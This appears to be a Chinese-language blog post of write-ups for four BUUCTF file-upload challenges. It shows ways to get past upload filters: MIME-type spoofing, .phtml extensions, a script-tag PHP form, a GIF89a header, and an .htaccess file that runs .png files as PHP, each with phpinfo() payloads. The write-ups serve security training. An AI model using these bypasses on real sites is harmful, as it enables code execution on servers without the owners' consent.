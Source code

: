 ```yaml
---
title: 文件上传-BUUCTF解题记录
date: 2024-05-18 22:57:40
permalink: /pages/bf5bdb/
categories:
  - web
tags:
  - 文件上传
author: 
  name: the0n3
  link: https://the0n3.top
---
```


题目收集自BUUCTF等平台，如有侵权告知删除

<!-- more -->


## [极客大挑战 2019]Upload 1

题目地址[[极客大挑战 2019]Upload 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Upload)

正常上传一个简单的php文件，会提示不是图片文件

```php
# 1.php
<?= phpinfo();?>
```

先从最简单的开始，尝试BP抓包修改报文中MIME类型，放行。又提示上传的是PHP文件，换一个不常见的扩展名.phtml，提示匹配到了<?

![1](/medias/upload-practise/1.png)

换成js脚本的写法

```php
# 1.phtml
<script language='php'>phpinfo();</script>
```

提示上传失败，检测到不是图片文件，给他加个图片文件头的特征

参考[图片文件头](https://blog.csdn.net/weixin_62715196/article/details/132279908)

```php
# 1.phtml
GIF89a
<script language='php'>phpinfo();</script>
```

![2](/medias/upload-practise/2.png)

再次上传成功,访问url/upload/1.phtml看到phpinfo()函数执行


## [ACTF2020 新生赛]Upload 1

题目地址[[ACTF2020 新生赛]Upload 1](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Upload)

正常上传php文件，js弹出只能上传图片

禁用js，我用chrome插件禁用js

![3](/medias/upload-practise/3.png)

禁用后，php文件还是上传不了，php3，php5也不行，尝试上传一个phtml文件

```php
# 1.phtml
<?php phpinfo();?>
```

上传后访问，phpinfo()函数执行

## [MRCTF2020]你传你🐎呢 1

题目地址[[MRCTF2020]你传你🐎呢 1](https://buuoj.cn/challenges#[MRCTF2020]%E4%BD%A0%E4%BC%A0%E4%BD%A0%F0%9F%90%8E%E5%91%A2)

传php文件都失败了，看样子只能用图片了。上传.htacess文件失败，修改MIME类型，.htacesss文件上传成功。

```htacess
# .htacess
AddType application/x-httpd-php .png
```


> ".htaccess" 文件是 Apache Web 服务器特有的文件，用于配置服务器的行为。通过 ".htaccess" 文件，用户可以在特定目录中覆盖 Apache 服务器的全局配置，包括重定向、认证、缓存控制等。

接着上传图片

```php
# 1.png
<?php phpinfo();?>
```

上传成功，访问看到phpinfo()函数执行

![5](/medias/upload-practise/5.png)


## [GXYCTF2019]BabyUpload 1

题目地址[[GXYCTF2019]BabyUpload 1](https://buuoj.cn/challenges#[GXYCTF2019]BabyUpload)

上传php文件提示不能上传后缀名有ph的文件，这题看来要用图片。上传png，gif图片失败，修改MIME类型也不能上传，最后看大佬博客发现只能用jpeg

[【CTF】[GXYCTF 2019]BabyUpload](https://blog.csdn.net/weixin_47055136/article/details/131291140)

[[GXYCTF2019]BabyUpload1 -- 题目分析与详解](https://blog.csdn.net/2302_79800344/article/details/136428034)

最后BP抓包MIME类型修改为image/jpeg竟然上传成功了。

上传.htacess文件

```htacess
# .htacess
AddType application/x-httpd-php .png
```

上传png图片

```php
# 1.png
<?php phpinfo();?>
```

提示还是php文件，尝试使用js格式

```php
# 1.png
<script language='php'>phpinfo();</script>
```

上传成功，访问看到phpinfo()函数执行